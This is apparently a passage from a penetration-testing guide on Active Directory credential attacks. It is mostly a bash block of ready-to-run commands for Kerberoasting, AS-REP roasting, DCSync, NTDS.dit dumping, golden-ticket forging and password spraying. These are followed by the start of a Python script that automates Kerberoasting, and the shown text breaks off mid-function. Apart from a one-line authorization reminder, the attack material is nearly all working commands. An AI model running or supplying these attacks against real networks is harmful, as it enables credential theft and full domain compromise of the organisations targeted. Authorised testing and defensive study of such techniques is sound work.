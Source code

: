 ## 10. Specialized Attack Scenarios

:::note
These specialized scenarios require deep understanding of specific technologies and protocols. Always ensure proper authorization and follow ethical guidelines when testing these techniques.
:::

### 10.1 Active Directory Credential Attacks

```bash
# Kerberoasting attack
GetUserSPNs.py domain.com/user:password -request -format hashcat -outputfile kerberoast_hashes.txt

# ASREPRoasting attack
GetNPUsers.py domain.com/ -usersfile users.txt -format hashcat -outputfile asrep_hashes.txt

# DCSync attack
secretsdump.py domain.com/user:password@dc.domain.com -just-dc

# NTDS.dit extraction
secretsdump.py -ntds ntds.dit -system system.hive LOCAL

# Golden ticket attack preparation
ticketer.py -nthash krbtgt_hash -domain-sid domain_sid -domain domain.com administrator

# Credential spraying against AD
crackmapexec smb targets.txt -u users.txt -p 'Password123' --continue-on-success

# LDAP authentication testing
ldapsearch -x -H ldap://dc.domain.com -D "user@domain.com" -W -b "dc=domain,dc=com"

# Advanced Kerberos attacks
cat > kerberos_attacks.py << 'EOF'
#!/usr/bin/env python3
import subprocess
import sys
from datetime import datetime

def kerberoast_attack(domain, username, password, output_file):
    """Perform Kerberoasting attack"""
    cmd = [
        'GetUserSPNs.py',
        f'{domain}/{username}:{password}',
        '-request',
        '-format', 'hashcat',
        '-outputfile', output_file
    ]
    
    try:
        result = subprocess.run(cmd, capture_output=True, text=True, timeout=300)
        if result.returncode == 0:
            print(f"Kerberoasting successful. Hashes saved to {output_file}")
            return True
        else:
            print(f"Kerberoasting failed: {result.stderr}")
            return False
    except subprocess.TimeoutExpired:
        print("Kerberoasting timed out")
        return False

def asreproast_attack(domain, users_file, output_file):
    """Perform ASREPRoasting attack"""
    cmd = [
```